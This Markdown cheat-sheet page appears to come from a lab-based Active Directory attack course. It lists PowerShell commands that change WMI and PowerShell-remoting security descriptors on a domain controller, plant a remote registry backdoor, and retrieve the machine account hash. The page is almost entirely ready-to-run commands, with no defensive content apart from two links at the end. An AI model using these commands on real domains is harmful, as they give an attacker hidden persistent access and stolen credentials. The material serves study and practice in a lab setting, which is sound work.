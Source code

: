 ```yaml
---
layout: page
title: "# Exploit WMI Security Descriptors"
permalink: /ad_cheatsheets/exploit_wmi_security_descriptors
---
```


# Exploit WMI Security Descriptors

## Modify descriptor for WMI to allow user to access the WMI

```powershell
. C:\AD\Tools\RACE.ps1

Set-RemoteWMI -SamAccountName student648 -ComputerName dcorp-dc.dollarcorp.moneycorp.local -namespace 'root\cimv2' -Verbose

```

## Execute WMI Queries

```powershell
gwmi -class win32_operatingsystem -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```

## Also can be done, Powershell Remoting

```powershell
Set-RemotePSRemoting –SamAccountName student648 -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Verbose
```

```powershell
Invoke-Command -ScriptBlock{whoami} -ComputerName dcorp-dc.dollarcorp.moneycorp.localdcorp\student648
```

## Modify Perms

```powershell
Add-RemoteRegBackdoor -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Trustee student648 
```

## Retrieve Hash

```powershell
Get-RemoteMachineAccountHash -ComputerName dcorp-dc.dollarcorp.moneycorp.local -Verbose
```

[What is an AdminSDHolder Attack and How to Defend Against it?](https://www.lepide.com/blog/what-is-an-adminsdholder-attack-and-how-to-defend-against-it/)

[Security Descriptors](https://book.hacktricks.xyz/windows/active-directory-methodology/security-descriptors)
